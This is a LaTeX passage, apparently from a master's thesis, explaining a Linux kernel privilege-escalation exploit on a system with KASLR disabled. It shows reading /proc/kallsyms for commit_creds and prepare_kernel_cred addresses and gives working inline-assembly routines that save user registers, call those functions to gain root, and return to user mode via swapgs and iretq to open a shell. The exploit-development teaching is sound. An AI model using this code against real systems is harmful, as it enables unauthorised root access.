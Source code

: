 \documentclass{masterthesis}
\begin{document}
Since \emph{KASLR} is disabled, the addresses where the functions reside are the same at every boot. So we can get those addresses by reading the \texttt{/proc/kallsyms} file with the following bash commands:
\begin{lstlisting}
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred
\end{lstlisting}
Then, to get root privileges we need to write a code where the two functions are called consecutively using the return value of one as a parameter of the other one.
At this point, we need to recall an instruction that allows us to return to user-land.
This can be done with these two different funciotns: \texttt{iretq} or \texttt{sysretq}.
With the first one \texttt{iretq}, it is much simpler because we need to configure the stack with five user area registry values in this order: \texttt{RIP | CS | RFLAGS | SP | SS}.
For the other function \texttt{RIP}, we can set the address of the function that allows us to open a shell while for the others we need to enter values that return to a state before getting kernel mode.
Therefore, the best solution is to save the state of the registers before entering the kernel mode and reload them after obtaining root privileges.
\begin{lstlisting}
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
\end{lstlisting}
One more instruction called \texttt{swapgs} must be called before \texttt{iretq}. The purpose of this instruction is also to swap the \texttt{GS} register between kernel-mode and user-mode.
In general, it is appropriate to invoke the \texttt{swapgs} instruction because the syscall does not change \texttt{RSP} to point to the kernel stack, and it does not save \texttt{RSP} user space anywhere. So, some kind of thread-local (or core-local) storage is needed because each core can get the correct kernel stack pointer for the task running on that core.
With all these information, we can complete the code to gain root privileges, then come back to user-mode:
\begin{lstlisting}[caption={first step}\label{lst:first_step}]
unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs RAX, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor RDI, RDI;"
        "call RAX; mov RDI, RAX;"
        "movabs RAX, 0xffffffff814c6410;" //commit_creds
        "call RAX;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
\end{lstlisting}
\end{document}
